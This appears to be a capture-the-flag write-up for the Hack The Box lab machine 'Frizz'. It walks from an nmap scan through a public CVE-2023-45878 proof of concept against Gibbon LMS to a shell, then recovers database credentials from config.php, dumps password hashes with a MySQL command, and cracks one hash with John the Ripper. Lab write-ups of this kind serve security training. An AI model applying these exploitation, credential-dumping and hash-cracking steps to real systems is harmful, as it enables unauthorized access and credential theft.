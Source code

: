 ## Windows Medium

### Enumeration

```
Nmap Scan
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_9.5 (protocol 2.0)

53/tcp   open  domain        Simple DNS Plus

80/tcp   open  http          Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.2.12)
|_http-title: Did not follow redirect to http://frizzdc.frizz.htb/home/
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-08 02:49:58Z)

135/tcp  open  msrpc         Microsoft Windows RPC

139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn

389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: frizz.htb0., Site: Default-First-Site-Name)

445/tcp  open  microsoft-ds?

464/tcp  open  kpasswd5?

593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0

636/tcp  open  tcpwrapped

3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: frizz.htb0., Site: Default-First-Site-Name)

3269/tcp open  tcpwrapped
```

### HTTP 80

Website running on http://frizzdc.frizz.htb

There is a Gibbon-LMS installed

Tried looking for exploits online

![image](https://github.com/user-attachments/assets/f3a0daac-8b82-4698-b539-560aba9d3d12)

This looks juicy, lets follow the rabbit hole

https://github.com/davidzzo23/CVE-2023-45878.git

Found a POC, lets try running the script

![image](https://github.com/user-attachments/assets/f3c814f8-b28e-4c75-9b7e-6853a7746d94)

Works, lets see if we can get a shell

BOOYAH

![image](https://github.com/user-attachments/assets/67697a21-50dd-4deb-8bb9-e8d357afe16a)

lets try to find credentials

Under Gibbon-LMS we find a config.php with db creds

$databaseServer = 'localhost';
$databaseUsername = 'MrGibbonsDB';
$databasePassword = 'MisterGibbs!Parrot!?1';
$databaseName = 'gibbon';

users

a.perlstein
Administrator
c.ramon
c.sandiego
d.hudson
f.frizzle
g.frizzle
Guest
h.arm
J.perlstein
k.franklin
krbtgt
l.awesome
m.ramon
M.SchoolBus
p.terese
r.tennelli
t.wright
v.frizzle
w.li
w.Webservice

lets figure out how to see mysql db for creds

We can run mysql.exe from the xampp folder

```
PS C:\xampp\mysql\bin> ./mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "use gibbon; select title,username,passwordStrong, passwordStrongSalt, gibbonRoleIDPrimary from gibbonperson"
```

found creds

pass- 067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03
salt- /aACFhikmNopqrRTVz2489

i was not sure how to crack this hash so i did some reading online, GibbonLMS uses SHA256 to hash the password
we can use dynamic_82 method to crack this hash, save the hash in a file as - 

f.frizzle:$dynamic_82$067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03$/aACFhikmNopqrRTVz2489

and run john against rockyou wordlist and we get a password

![image](https://github.com/user-attachments/assets/1c114ae0-5f72-466b-8280-a1cc522c6d66)

